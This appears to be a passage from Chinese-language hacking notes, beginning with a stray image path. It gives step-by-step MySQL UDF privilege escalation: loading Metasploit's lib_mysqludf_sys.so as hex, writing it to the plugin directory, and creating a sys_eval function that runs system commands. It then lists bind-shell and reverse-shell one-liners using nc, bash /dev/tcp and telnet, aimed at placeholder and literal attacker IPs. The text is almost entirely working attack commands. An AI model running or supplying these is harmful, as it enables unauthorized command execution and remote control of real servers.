 ## 5.  获取服务器版本信息

```text
mysql> show variables like 'version_compile_%';
```

## 6. metasploit 文件

/usr/share/metasploit-framework/data/exploits/mysql

## 7. 找到匹配文件
然后在数据库中转成16进制
```
select hex(load_file('lib_mysqludf_sys.so文件存在的位置')) into outfile '需要保存到的位置/udf.txt';
```


## 8. 上传16进制的文件到数据库
```
select unhex('你的十六进制文本') into dumpfile '/usr/lib/mysqludf.so';
```

## 9.选择数据库添加函数

```
create function sys_eval returns string soname "mysqludf.so";
```

## 10. 调用函数 实验是否成功

```
select sys_eval('whoami');
```

# 绑定shell

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```

# 反弹shell

^5af79a

```
nc -e 攻击者ip 端口 /bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 

bash -c ‘exec bash -i &>/dev/tcp/61.139.2.153/8888 <&1’

bash -c 'bash -i >& /dev/tcp/61.139.2.153/8888 0>&1'

mkfifo+/tmp/test;telnet+61.139.2.128+2334+0</tmp/test|/bin/sh+>+/tmp/test
```
